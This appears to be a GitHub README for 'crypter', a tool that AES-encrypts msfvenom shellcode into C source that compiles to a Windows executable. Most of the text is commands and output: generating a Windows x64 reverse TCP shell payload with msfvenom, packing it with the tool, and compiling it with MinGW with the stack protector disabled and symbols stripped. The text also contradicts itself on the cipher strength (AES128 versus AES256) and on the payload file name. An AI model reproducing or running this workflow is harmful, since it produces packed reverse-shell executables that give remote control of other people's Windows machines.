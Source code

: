 # crypter
A shellcode crypto-packing tool for PoC (used with msfvenom/binary payloads)

This tool is for proof of concept only - please use responsibly.

Crypter is an auxiliary tool used for crypto packing msfvenom Windows payloads.
It uses AES128 (optimal for speed) to encrypt the payload and create C source from it from which you can compile (on linux or windows) into an executable.

You will need to install `MinGW` on Linux in order to compile `.exe` files:

```
$ apt-get update
$ apt-get install mingw-w64
```
________________________________

#Install

First, you will need to install the dependency/dependencies that `crypter` relies on (mainly OpenSSL):

```
$ apt-get install libssl-dev
```

Then, download this repository and install:

```
$ git clone https://github.com/ripmeep/crypter/ && cd crypter
$ gcc crypter.c -o crypter -lcrypto -I src/
```

#Usage

You will need to generate/already have a file that contains raw shellcode that you wish to execute in an exe file.
Metasploit is a good way of generating one for reverse shells/exploits. (https://github.com/rapid7/metasploit-framework/)

Generate a payload:

```
$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=[LISTENER IP] LPORT=[LISTENER PORT] -f raw -o payload.bin
```

Run crypter to crypto pack the shellcode into a C source binary:

```
$ ./crypter payload.bin shell.exe

Extracted contents of payload.dat
Generated random AES256 Cryto Pack key: 924C2038A4B0DEFDF8420A2A896688CE900DD26109759A4CAE0681A147A64FA5
Generated random initialization vector: 34A7B03E8F2CD3023ED2BF78ECC8AE846D84B30F96E97BC02189820276DEB229
Successfully encrypted payload - generating exe file

Generated Crypto C source
Writing source to shell.exe.c...
Done
Now run: x86_64-w64-mingw32-gcc shell.exe.c -o shell.exe -fno-stack-protector -s
Finished
```

It will then display the MinGW command you need to run to compile the source file.
`x86_64-w64-mingw32-gcc shell.exe.c -o shell.exe -fno-stack-protector -s` (my case).
